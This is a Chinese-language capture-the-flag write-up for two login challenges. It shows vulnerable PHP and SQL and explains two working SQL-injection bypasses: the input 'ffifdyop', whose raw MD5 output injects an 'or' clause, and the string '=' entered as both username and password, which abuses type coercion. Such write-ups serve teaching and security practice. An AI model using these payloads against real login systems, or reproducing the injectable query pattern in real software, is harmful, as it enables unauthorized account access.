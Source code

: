 

# 后台登录
http://www.shiyanbar.com/ctf/2036

php 处理password的代码如下：
```php
<!-- $password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
$result=mysqli_query($link,$sql);
    if(mysqli_num_rows($result)>0){
        echo 'flag is :'.$flag;
    }
    else{
        echo '密码错误!';
    } -->
```

```php
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
该语句构建sql查询， php的.操作符表示字符串拼接, 字符串由下面三个部分构成
1) "SELECT * FROM admin WHERE username = 'admin' and password = '"
2) md5($password,true)
3) "'"
md5($password,true) 函数， MD5报文摘要将以16字节长度的原始二进制格式返回， 然后被转换成字符串
```
寻找$password输入，使得md5返回字符串完成sql注入
```php
<?php
$password = "ffifdyop";
echo md5($password,true);
?>

输出：
'or'6�]��!r,��b
```

# 登陆一下好吗??
http://www.shiyanbar.com/ctf/1942

username:'='

password:'='

```sql
create table users(username char(20), password char(20));
insert into users values("admin", "admin");
select * from users where username=''='' and password=''=''; 
# username='' 的结果为0， 0=''比较时，字符串被转为int时变为0， 0=0结果为true
```